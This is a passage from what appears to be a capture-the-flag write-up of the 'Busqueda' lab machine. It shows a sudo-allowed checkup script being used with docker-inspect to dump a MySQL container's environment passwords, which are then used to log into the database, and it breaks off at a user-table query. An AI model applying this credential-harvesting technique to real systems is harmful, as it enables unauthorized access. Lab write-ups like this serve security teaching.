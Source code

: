 ```bash
     full-checkup  : Run a full system checkup

# pass the first argument
svc@busqueda:/$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS
                      NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   12 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   12 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

# pass the second argument
svc@busqueda:/$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>

# pass the third argument
svc@busqueda:/$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

The `docker-inspect` argument seems to require two arguments itself: `format` and `container_name`. Upon searching for the command, it seems that it is actually an official Docker command and the [`--format`](https://docs.docker.com/engine/reference/commandline/inspect/#options) refers to the output's format:

>_The output is quite large, so we can use the [`jq`](https://jqlang.github.io/jq/tutorial/) tool to beautify it and make it more readable._

```bash
# execute the script with the required arguments
svc@busqueda:/$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' f84a6b33fb5a | jq
<SNIP>
    "Env": [
      "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
      "MYSQL_USER=gitea",
      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
      "MYSQL_DATABASE=gitea",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "GOSU_VERSION=1.14",
      "MYSQL_MAJOR=8.0",
      "MYSQL_VERSION=8.0.31-1.el8",
      "MYSQL_SHELL_VERSION=8.0.31-1.el8"
<SNIP>
```

The docker image above contains some credentials for the MySQL server: `MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF`, `MYSQL_USER=gitea`, and `MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh`. Let's use them to log in:

```bash
# log into mysql
svc@busqueda:/$ mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 127.0.0.1 -D gitea
<SNIP>

mysql> show tables;
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
<SNIP>
| user                      |
<SNIP>
+---------------------------+
91 rows in set (0.00 sec)

mysql> select * from user limit 1 \G
```